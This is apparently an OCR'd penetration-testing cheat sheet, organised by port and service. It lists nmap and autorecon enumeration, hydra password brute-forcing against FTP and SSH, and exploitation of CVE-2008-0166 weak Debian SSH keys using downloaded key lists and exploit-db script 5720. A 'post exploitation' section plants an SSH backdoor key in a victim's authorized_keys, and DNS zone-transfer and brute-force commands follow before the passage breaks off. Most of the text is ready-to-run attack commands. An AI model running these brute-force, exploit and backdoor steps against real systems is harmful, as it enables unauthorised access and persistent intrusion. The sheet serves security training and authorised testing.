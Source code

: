 Enumeration
nmap -sn -v <IP>/CIDR
nmapAutomator <IP> All
autorecon <IP>/CIDR
NMAP
TCP
sudo -sS -sC -sV -oA <NAME>.tcp <IP> -v
UDP
sudo -sU -sS -sC -sV -oA <NAME>.udp <IP> -v
FTP - 21
Brute force
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ftp://<IP> -u -vV
Downloading file
ftp <IP>
PASSIVE
BINARY
get <FILE>
Uploading file
ftp <IP>
PASSIVE
BINARY
put <FILE>
SSH - 22
Brute force
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ssh://<IP> -u -vV
CVE-2008-0166
All SSL and SSH keys generated on Debian-based systems (Ubuntu, Kubuntu, etc) between September 2006 and May 13th, 2008 may be affected.

https://www.exploit-db.com/exploits/5720

wget https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_rsa_2048_x86.tar.bz2 https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_dsa_1024_x86.tar.bz2

bunzip2 debian_ssh_rsa_2048_x86.tar.bz2 debian_ssh_dsa_1024_x86.tar.bz2
tar -xvf debian_ssh_rsa_2048_x86.tar
tar -xvf debian_ssh_dsa_1024_x86.tar

python 5720 rsa/2048 <IP> <USER> <PORT> <THREADS>
python 5720 dsa/1024 <IP> <USER> <PORT> <THREADS>
SSH backdoor - post exploitation
# Attacker
ssh-keygen -f <FILENAME>
chmod 600 <FILENAME>
cat <FILENAME>.pub -> copy

# Victim
echo <FILENAME>.pub >> <PATH>/.ssh/authorized_keys

# Connect
ssh -i <FILENAME> <USER>@<IP>
DNS - 53
dnsenum <DOMAIN>
dnsrecon -d <DOMAIN>
Zone transfert
dnsrecon -d <DOMAIN> -a
dig axfr <DOMAIN> @ns1.test.com
DNS brute force
https://github.com/blark/aiodnsbrute
FINGER - 79
User enumeration